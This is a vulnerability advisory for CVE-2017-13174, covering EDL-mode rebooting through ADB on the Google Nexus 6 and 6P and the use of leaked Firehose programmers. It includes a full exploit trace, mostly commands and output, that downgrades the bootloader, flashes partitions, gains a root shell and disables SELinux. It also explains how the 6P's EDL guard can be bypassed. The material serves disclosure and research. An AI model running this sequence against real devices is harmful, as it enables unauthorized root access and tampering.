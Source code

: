 ```yaml
---
layout: vuln
timeline:
    - type: 'add'
      date: '2017-06-05'
    - type: 'report'
      date: '2017-06-05'
      arg: 'Android Security'
    - type: 'deadline'
      date: '2017-09-03'
    - type: 'vendor-triage'
      date: '2017-06-13'
      arg: 'Moderate'
    - type: 'vendor-retriage'
      date: '2017-11-01'
      arg: 'High'
    - type: 'vendor-advisory'
      date: '2017-12-04'
    - type: 'release'
      date: '2018-01-22'

androidid: 63100473
product:
    - Google Nexus 6
    - Google Nexus 6P
severity: 'high'
alephid: ALEPH-2017027
date: '2018-01-22'   
cve: 'CVE-2017-13174'
title: 'Google Nexus 6 & 6P EDL triggering through ADB'
---
```

Google Nexus 6 allows rebooting into the Qualcomm Emergency Download (EDL) Mode through ADB, by issuing the `adb reboot edl` command.

Since the Google Nexus 6 Firehose programmer has been leaked (SHA256: 9b3184613d694ea24d3beeba6944fdb64196fea7056c833d38d2ef683fd96e9b), one could exploit the programmer in order to downgrade critical partitions such as the Motorola Android Bootloader, which enabled exploitation of old vulnerabilities such as @CVE-2016-10277.

The following shows the trace of our [exploit code](https://github.com/alephsecurity/edlrooter), gaining a root shell:

```
+ adb wait-for-device shell getprop ro.build.fingerprint
google/shamu/shamu:7.1.1/N6F27M/4299435:user/release-keys
+ adb shell id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
+ adb reboot edl 
+ sudo ./edl/qboot blank-flash ./edl/programmer.mbn ./edl/singleimage.bin
< waiting for device >
opening device: /dev/ttyUSB0
OKAY [  0.000s]
greeting device for command mode
OKAY [  0.001s]
identifying device
...serial = 0xE4860D
...chip-id = 0x901
...chip-rev = 0x0 
...sv-sbl = 0x0 
OKAY [  0.002s]
finding files
...programmer = ./edl/programmer.mbn
...singleimage = ./edl/singleimage.bin
OKAY [  0.000s]
validating files
OKAY [  0.001s]
switching to download mode
OKAY [  0.000s]
greeting device for image downloading
OKAY [  0.000s]
sending programmer
OKAY [  0.006s]
flashing singleimage
100%
OKAY [  3.120s]
rebooting target
OKAY [  0.000s]
finished. total time:   3.131s
+ fastboot getvar version-bootloader
version-bootloader: moto-apq8084-71.08(*)
finished. total time: 0.002s
+ fastboot flash partition img/gpt.bin
(bootloader) has-slot:partition: not found
target reported max download size of 536870912 bytes
sending 'partition' (32 KB)...
OKAY [  0.003s]
writing 'partition'...
[...]
OKAY [  0.063s]
...]
OKAY [  0.063s]
finished. total time: 0.067s
+ fastboot flash aboot img/bootloader.aboot-n6f26y.img
+ fastboot reboot-bootloader
+ fastboot getvar version-bootloader
version-bootloader: moto-apq8084-72.02(*)
finished. total time: 0.002s
+ fastboot oem config fsg-id a initrd=0x11000000,1519997
+ fastboot flash aleph ./img/initroot-shamu-aosp-nmf26f.cpio.gz
+ fastboot continue

+ adb wait-for-device
+ adb push ./img/bootloader.aboot-n6f26y.img ./img/bootloader.aboot-n6f27e.img ./img/initroot-shamu-aosp-nmf26f.img ./img/radio.modem-n6f27e.img /data/local/tmp
./img/bootloader.aboot-n6f26y.img: 1 file pushed. 19.9 MB/s (1048576 bytes in 0.050s)
./img/bootloader.aboot-n6f27e.img: 1 file pushed. 18.8 MB/s (1048576 bytes in 0.053s)
./img/initroot-shamu-aosp-nmf26f.img: 1 file pushed. 17.4 MB/s (8728576 bytes in 0.479s)
./img/radio.modem-n6f27e.img: 1 file pushed. 19.6 MB/s (117440512 bytes in 5.715s)
4 files pushed. 19.4 MB/s (128266240 bytes in 6.302s)
+ adb shell dd of=/dev/block/platform/msm_sdcc.1/by-name/modem if=/data/local/tmp/radio.modem-n6f27e.img
+ adb shell dd of=/dev/block/platform/msm_sdcc.1/by-name/boot if=/data/local/tmp/initroot-shamu-aosp-nmf26f.img
+ adb shell dd of=/dev/block/platform/msm_sdcc.1/by-name/aboot if=/data/local/tmp/bootloader.aboot-n6f27e.img
+ adb shell dd of=/dev/block/platform/msm_sdcc.1/by-name/abootBackup if=/data/local/tmp/bootloader.aboot-n6f27e.img
+ adb shell rm -fr /data/local/tmp/*.img
+ adb reboot bootloader
+ fastboot getvar version-bootloader
+ fastboot oem config fsg-id
...
OKAY [  0.008s]
finished. total time: 0.008s
+ fastboot continue
OKAY [  0.002s]
finished. total time: 0.002s
+ adb wait-for-device shell getprop ro.build.fingerprint
google/shamu/shamu:7.1.1/N6F27E/3939304:user/release-keys
+ adb shell id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
+ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
shamu:/ # setenforce 0
shamu:/ # getenforce
Permissive
shamu:/ #
```

As for Nexus 6P, rebooting into `edl` is not possible by a normal shell user, as this is disabled by default in the `msm-poweroff.c` driver:

```c
static int enable_edl = 0;
static int edl_set(const char *val, struct kernel_param *kp);
module_param_call(enable_edl, edl_set, param_get_int, &enable_edl, 0644);

static void enable_emergency_dload_mode(void)
{
	int ret;
	if (enable_edl == 0) {
		pr_info("emergency EDL is not enabled\n");
		return;
	}
	if (emergency_dload_mode_addr) {
		__raw_writel(EMERGENCY_DLOAD_MAGIC1,
				emergency_dload_mode_addr);
		__raw_writel(EMERGENCY_DLOAD_MAGIC2,
				emergency_dload_mode_addr +
				sizeof(unsigned int));
		__raw_writel(EMERGENCY_DLOAD_MAGIC3,
				emergency_dload_mode_addr +
				(2 * sizeof(unsigned int)));
		/* Need disable the pmic wdt, then the emergency dload mode
		 * will not auto reset. */
		qpnp_pon_wd_config(0);
		mb();
	}
	ret = scm_set_dload_mode(SCM_EDLOAD_MODE, 0);
	if (ret)
		pr_err("Failed to set secure EDLOAD mode: %d\n", ret);
}
```
As one can see, the `enable_edl` module parameter, that can be controlled through `sysfs`, determines whether it's possible to reboot into EDL or not. Despite that, a root attacker capable on writing on files with the `sysfs` SELinux context can set that variable. The Google Nexus 6P Firehose programmer has been leaked (30758b3e0d2e47b19ebcac1f0a66b545960784ad6d428a2fe3c70e3934c29c7a), thus such an attacker can elevate his privilege through partition downgrades, escalate to EL3 (before the OS boots), as demonstrated in our blog post.

Google's December 2017 patch for Nexus 6P removed the code that reboots into EDL. A kernel attacker should still be able to reboot into EDL, and load the leaked programmer.


